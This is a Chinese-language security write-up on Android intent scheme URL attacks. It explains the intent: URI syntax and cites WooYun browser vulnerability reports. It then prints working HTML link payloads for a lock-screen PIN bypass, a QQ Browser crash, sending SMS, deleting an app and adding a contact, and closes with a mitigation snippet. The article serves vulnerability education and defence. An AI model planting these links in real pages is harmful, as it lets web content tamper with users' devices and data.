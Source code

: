 # Intent scheme URL attack

0x01 Android Intents with Chrome
--------------------------------

* * *

Android有一个很少人知道的特性可以通过web页面发送intent来启动apps。以前通过网页启动app是通过设置iframe的src属性，例如：

```
<iframe src="paulsawesomeapp://page1"> </iframe>

```

此方法适用version 18或者更早版本。其他android浏览器也适用。 这个功能在安卓chrome 浏览器version 25之后版本发生了改变。不能在通过设置iframe标签的src属性来启动app了。取而代之的是你应该通过自定义scheme实现用户手势启动app或者使用本文描述的“intent:”语法。

**1.1 基本语法**

“最佳实践”是构造一个intent插入网页中使用户能够登录app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过[Intent Extras](http://developer.android.com/guide/components/intents-filters.html#extras)传递额外信息。 intent-based URI基本语法如下：

```
intent:
   HOST/URI-path // Optional host
   #Intent;
      package=[string];
      action=[string];
      category=[string];
      component=[string];
      scheme=[string];
   end;

```

语法细节见源码[Android source](https://code.google.com/p/android-source-browsing/source/browse/core/java/android/content/Intent.java?repo=platform--frameworks--base#6514)

![enter image description here](http://drops.javaweb.org/uploads/images/a203372c8f4e1fa76192d14b03d0dc386f6377c4.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/833b07a0b763ad2c3eeae31e1fd2ded97e387bbe.jpg)

**1.2 简单举例**

例子是一个intent登陆应用“Zxing barcode scanner”，语法如下：

```
intent:
   //scan/
   #Intent;
      package=com.google.zxing.client.android;
      scheme=zxing;
   end;

```

设置a标签发href属性：

```
<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a>

```

Package和host定义在配置文件中[Android Zxing Manifest](https://code.google.com/p/zxing/source/browse/trunk/android/AndroidManifest.xml#97)

**1.3 注意事项**

如果调用activity的intent包含[extras](http://developer.android.com/guide/components/intents-filters.html#extras)，同样可以包含这些。 Activity只有配置了category filter才有被[android.intent.category.BROWSABLE](http://developer.android.com/reference/android/content/Intent.html#CATEGORY_BROWSABLE)通过这种方式在浏览器中打开，因为这样表明其是安全的。

**1.4 另请参阅**

•[Android Intents and Intent Filters](http://developer.android.com/guide/components/intents-filters.html)

•[Android Activities](http://developer.android.com/guide/components/activities.html)

0x02 利用思路
---------

* * *

在Android上的Intent-based攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based的恶意样本还是很容易被识别出来的。 然而最近出现了一种基于Android Browser的攻击手段——Intent Scheme URLs攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现Intend-Based攻击。相比于普通Intend-Based攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏WebPage中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如cookie文件，进而导致用户机密信息的泄露。

0x03 1.3 Intent scheme URL的用法
-----------------------------

看一下Intent Scheme URL的用法。

```
<script>location.href = "intent:mydata#Intent;action=myaction;type=text/plain;end"</script>  

```

从用法上看，还是很好理解的，这里的代码等价于如下Java代码：

```
Intent intent = new Intent("myaction");  
intent.setData(Uri.parse("mydata"));  
intent.setType("text/plain");  

```

再看一个例子：

```
intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end 

```

上面的语句，等价于如下Java代码：

```
Intent intent = new Intent("myaction");  
intent.setData(Uri.pase("//foobar/"));  
intent.putExtra("xyz", "123");  
intent.putExtra("abc", 678);  

```

其中S代表String类型的key-value，i代表int类型的key-value。 源码中提供了Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析uri，如果想更一步了解其中的语法，可以查看官方源码。

0x04 Intent scheme URI的解析及过滤
----------------------------

* * *

如果浏览器支持Intent Scheme URI语法，一般会分三个步骤进行处理：

> 1.  利用Intent.parseUri解析uri，获取原始的intent对象；
> 2.  对intent对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
> 3.  通过Context.startActivityIfNeeded或者Context.startActivity发送intent； 其中步骤2起关键作用，过滤规则缺失或者存在缺陷都会导致Intent Schem URL攻击。

关键函数

```
Intent.parseUri()

```

绕过

```
Intent.setComponent(null);

```

使用sel;

0x05 乌云案例
---------

* * *

[WooYun: qq浏览器IntentScheme处理不当](http://www.wooyun.org/bugs/wooyun-2014-073875)

[WooYun: 傲游云浏览器远程隐私泄露漏洞（需要一定条件）](http://www.wooyun.org/bugs/wooyun-2014-067798)

某浏览器对此支持非常好

```
<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
   设置绕过Pin码（android 3.0-4.3）
</a>

```

![enter image description here](http://drops.javaweb.org/uploads/images/3afa0b81f88f8cc891c25a62cb7cbfe3c98016e2.jpg)

```
<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
    qq浏览器崩溃
</a>

```

![enter image description here](http://drops.javaweb.org/uploads/images/8dc28f94572dfc6e609f0763153dc9dc6e1ea24b.jpg)

```
<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
    打开原生浏览器
</a>

```

![enter image description here](http://drops.javaweb.org/uploads/images/25bec73f4b53864675d4566be30dfc029b99555d.jpg)

* * *

```
<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
   发送短信
</a><br>

```

* * *

```
<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
   打开相机
</a><br>

```

* * *

```
<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
   删除应用
</a><br>

```

* * *

```
<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
    添加联系人
</a><br>

```

0x06 修复
-------

* * *

通过以上漏洞的描述，总结得出一种相对比较安全的Intent Filter方法，代码如下：

```
// convert intent scheme URL to intent object  
Intent intent = Intent.parseUri(uri);  
// forbid launching activities without BROWSABLE category  
intent.addCategory("android.intent.category.BROWSABLE");  
// forbid explicit call  
intent.setComponent(null);  
// forbid intent with selector intent  
intent.setSelector(null);  
// start the activity by the intent  
context.startActivityIfNeeded(intent, -1);  

```

0x07 参考
-------

* * *

[http://www.mbsd.jp/Whitepaper/IntentScheme.pdf](http://www.mbsd.jp/Whitepaper/IntentScheme.pdf)

[http://blog.csdn.net/l173864930/article/details/36951805](http://blog.csdn.net/l173864930/article/details/36951805)